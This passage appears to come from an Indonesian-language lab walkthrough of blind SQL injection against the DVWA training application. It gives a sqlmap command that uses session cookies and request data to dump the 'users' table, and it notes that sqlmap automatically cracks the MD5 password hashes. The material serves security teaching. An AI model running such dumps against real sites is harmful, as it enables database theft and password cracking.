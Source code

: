 ![sqlmap2](src/blind_sqlmap2.png)

6. Ubah lagi command sqlmap sebelumnya untuk menampilkan data dalam tabel users
```
sqlmap -u "[url]" --cookie="[cookies]" --data="[request]" -D dvwa -T users --dump --batch
```
>--dump digunakan untuk menampilkan semua data didalam sebuah tabel

![sqlmap3](src/blind_sqlmap3.png)
>karena enkripsi password yang sederhana menggunakan `md5`, sqlmap secara otomatis mendekripsi semua password yang ada
